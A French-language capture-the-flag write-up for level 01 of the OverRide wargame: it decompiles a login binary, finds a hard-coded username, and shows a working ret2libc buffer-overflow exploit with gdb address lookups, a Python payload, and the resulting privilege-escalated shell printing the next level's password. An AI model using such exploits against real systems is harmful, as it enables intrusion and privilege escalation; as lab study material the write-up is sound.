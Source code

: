 # **Level 01**

Premiere etape, comprendre le programme, on va donc decompiler l'executable dans un premier temps.

```
int verify_user_name(void)

{
  int iVar1;
  byte *pbVar2;
  byte *pbVar3;
  undefined uVar4;
  undefined uVar5;
  byte bVar6;
  
  bVar6 = 0;
  uVar4 = &stack0xfffffff4 < (undefined *)0x10;
  uVar5 = &stack0x00000000 == (undefined *)0x1c;
  puts("verifying username....\n");
  iVar1 = 7;
  pbVar2 = &a_user_name;
  pbVar3 = (byte *)"dat_wil";
  do {
    if (iVar1 == 0) break;
    iVar1 = iVar1 + -1;
    uVar4 = *pbVar2 < *pbVar3;
    uVar5 = *pbVar2 == *pbVar3;
    pbVar2 = pbVar2 + (uint)bVar6 * -2 + 1;
    pbVar3 = pbVar3 + (uint)bVar6 * -2 + 1;
  } while ((bool)uVar5);
  return (int)(char)((!(bool)uVar4 && !(bool)uVar5) - uVar4);
}



int verify_user_pass(byte *param_1)

{
  int iVar1;
  byte *pbVar2;
  undefined in_CF;
  undefined in_ZF;
  
  iVar1 = 5;
  pbVar2 = (byte *)"admin";
  do {
    if (iVar1 == 0) break;
    iVar1 = iVar1 + -1;
    in_CF = *param_1 < *pbVar2;
    in_ZF = *param_1 == *pbVar2;
    param_1 = param_1 + 1;
    pbVar2 = pbVar2 + 1;
  } while ((bool)in_ZF);
  return (int)(char)((!(bool)in_CF && !(bool)in_ZF) - in_CF);
}



undefined4 main(void)

{
  undefined4 uVar1;
  int iVar2;
  undefined4 *puVar3;
  undefined4 local_54 [16];
  int local_14;
  
  puVar3 = local_54;
  for (iVar2 = 0x10; iVar2 != 0; iVar2 = iVar2 + -1) {
    *puVar3 = 0;
    puVar3 = puVar3 + 1;
  }
  local_14 = 0;
  puts("********* ADMIN LOGIN PROMPT *********");
  printf("Enter Username: ");
  fgets(&a_user_name,0x100,stdin);
  local_14 = verify_user_name();
  if (local_14 == 0) {
    puts("Enter Password: ");
    fgets((char *)local_54,100,stdin);
    local_14 = verify_user_pass(local_54);
    if ((local_14 == 0) || (local_14 != 0)) {
      puts("nope, incorrect password...\n");
      uVar1 = 1;
    }
    else {
      uVar1 = 0;
    }
  }
  else {
    puts("nope, incorrect username...\n");
    uVar1 = 1;
  }
  return uVar1;
}
```
On peut donc voir que le programme nous demande un `prompt` d'un `username` puis un prompt pour un `password`;
Testons donc le programme,
```
level01@OverRide:~$ ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: test
verifying username....

nope, incorrect username...

```
En examinant un peu mieux le code, on peut voir que le `username` attendu est `dat_wil`
```
level01@OverRide:~$ ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
test
nope, incorrect password...
```

De plus, on constate que le `buffer` de la variable contenant le `password` est de `16` et que,
si l'on remplie le buffer de `80 characteres`, on `sigsegv`
```
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
01234567890123456789012345678901234567890123456789012345678901234567890123456789
nope, incorrect password...

Segmentation fault (core dumped)
```
Notre objectif va donc d'utiliser la place disponible dans le buffer de password pour reecrire le return du main
Exploit -> `Ret2libc`

Pour ce faire nous allons devoir trouver l'`adresse` de la `fonction system` et une adresse d'une `string` contenant `/bin/sh`
```
level01@OverRide:~$ gdb ./level01 
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/users/level01/level01...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x80484d5
(gdb) run
Starting program: /home/users/level01/level01 

Breakpoint 1, 0x080484d5 in main ()
(gdb) info func system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
0xf7f48a50  svcerr_systemerr
```
Adresse de system -> `0xf7e6aed0`

```
(gdb) find __libc_start_main, +9999999, "/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```
Adresse de "bin/sh" -> `0xf7f897ec`

Nous pouvons donc maintenant creer notre payload:

premier prompt -> [dat_wil]

second prompt -> [80 characteres] [addr system] [4 characteres] [addr "/bin/sh"]

`(python -c "print 'dat_wil'"; python -c "print '\x90'*80 + '\xd0\xae\xe6\xf7' + 'AAAA'+ '\xec\x97\xf8\xf7'") > /var/crash/file`

```
level01@OverRide:~$ (python -c "print 'dat_wil'"; python -c "print '\x90'*80 + '\xd0\xae\xe6\xf7' + 'AAAA'+ '\xec\x97\xf8\xf7'") > /var/crash/file
level01@OverRide:~$ cat /var/crash/file - | ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

id
uid=1001(level01) gid=1001(level01) euid=1002(level02) egid=100(users) groups=1002(level02),100(users),1001(level01)
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
